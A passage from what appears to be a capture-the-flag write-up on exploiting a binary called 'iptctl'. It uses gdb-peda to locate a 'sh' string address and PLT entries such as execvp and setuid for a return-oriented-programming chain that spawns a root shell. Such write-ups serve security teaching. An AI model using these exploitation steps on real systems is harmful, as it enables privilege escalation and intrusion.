 I’ll add a couple more gadgets in there in actuality to run `setuid` before
running `execve`, but that illustrates the idea.

#### Payload

I just need the values for the registers. First, I want the string “sh” in
rdi. Luckily, it exists inside the main binary, where the address will be
static:

    
    
    gdb-peda$ find "sh"                       
    Searching for 'sh' in: None ranges                                             
    Found 110 results, display max 110 items:                                       
        iptctl : 0x40046e --> 0x7063727473006873 ('sh')
        iptctl : 0x400e17 --> 0x62732f00776f6873 ('show')
        iptctl : 0x400e78 --> 0x203a29776f6873 ('show): ')
        iptctl : 0x400ea9 ("show IP\n")                    
        iptctl : 0x400ed1 ("show IP_ADDR\n")
    

That top one is perfect. It’s actually the end of the string “fflush”, but
that’s ok:

    
    
    gdb-peda$ x/s 0x40046e                                                                   
    0x40046e:       "sh"                                                                                   
    gdb-peda$ x/s 0x40046a                                                          
    0x40046a:       "fflush"
    

I can get the PLT address of `execvp` by starting `gdb` fresh and printing the
function:

    
    
    gdb-peda$ p execvp
    $1 = {<text variable, no debug info>} 0x400760 <execvp@plt>
    

If I let the debugger run, after the function is called, the inner workings
get updated such that that same command will show the libc address:

    
    
    gdb-peda$ p execvp
    $1 = {int (const char *, char * const *)} 0x7ffff7ea3240 <__GI_execvp>
    

But the libc address changes with ASLR, so I want the first one.

I can see all the plt functions that I’ll have access to in gdbi by opening
`gdb` and running `plt`:

    
    
    gdb-peda$ plt
    Breakpoint 1 at 0x400760 (execvp@plt)
    Breakpoint 2 at 0x400770 (exit@plt)
    Breakpoint 3 at 0x400750 (fflush@plt)
    Breakpoint 4 at 0x400730 (fgets@plt)
    Breakpoint 5 at 0x400790 (fork@plt)
    Breakpoint 6 at 0x400740 (inet_pton@plt)
    Breakpoint 7 at 0x400720 (printf@plt)
    Breakpoint 8 at 0x400700 (puts@plt)
    Breakpoint 9 at 0x400780 (setuid@plt)
    Breakpoint 10 at 0x4006f0 (strcpy@plt)
    Breakpoint 11 at 0x400710 (strlen@plt)
    Breakpoint 12 at 0x4006e0 (strncpy@plt)
    Breakpoint 13 at 0x4007a0 (strstr@plt)
    